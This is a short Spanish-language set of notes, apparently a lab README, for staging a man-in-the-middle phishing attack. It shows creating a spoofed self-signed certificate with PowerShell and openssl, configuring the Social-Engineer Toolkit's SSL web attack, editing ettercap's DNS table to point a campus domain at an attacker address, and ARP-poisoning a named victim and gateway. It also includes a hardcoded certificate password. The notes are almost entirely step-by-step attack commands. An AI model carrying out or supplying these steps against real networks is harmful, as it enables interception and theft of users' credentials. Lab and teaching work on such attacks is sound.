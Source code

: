 # Certificates
Generar certificados en linux.pem

Se requiere powershell:

New-SelfSignedCertificate -DnsName pvwa.ibm.edu,www.pvwa.ibm.edu -CertStoreLocation cert:\LocalMachine\My -FriendlyName "pvwa-cyberark" -NotAfter (Get-Date).AddYears(10) -KeyLength 4096
 
 Export-Certificate -Cert Cert:\LocalMachine\My\460D824C40330E8ED1AEF3F931EA9382805DA70F -FilePath C:\cert\cert.cer
 
 $MyPassword = ConvertTo-SecureString -String "Temporal01_" -force -asplaintext
 
 Export-PfxCertificate -Cert Cert:\LocalMachine\My\0A5E5CA292E0CB2DBD2D208E07C63D8F0E08C314 -FilePath C:\cert\key.pfx -Password $MyPassword
 
 openssl pkcs12 -in key.pfx -out key.pem -nodes

mkdir /etc/ssl/public
cp key.pem /etc/ssl/private
cp cert.pem /etc/ssl/public

nano /etc/setoolkit/set.config

WEBATTACK_SSL=ON
WEB_PORT=443

PEM_CLIENT=/etc/ssl/public.PEM
PEM_SERVER=/etc/ssl/private/private.PEM


setoolkit
1
2
3


Instalar certificado a víctima

nano /etc/ettercap/etter.dns
  campus.ceacfp.com A 172.16.8.24

ettercap -G

desactivar primera opción 
arrancar ettercap

tres puntos --> plugins --> activar dns_spoof
tres puntos --> host --> scan host

Target 1 --> gateway
Target 2 --> Victima

Menú de MITM (Bola) --> ARP Poisoning --> primera opcion marcada OK

Pulsamos Play --> envenar victimas




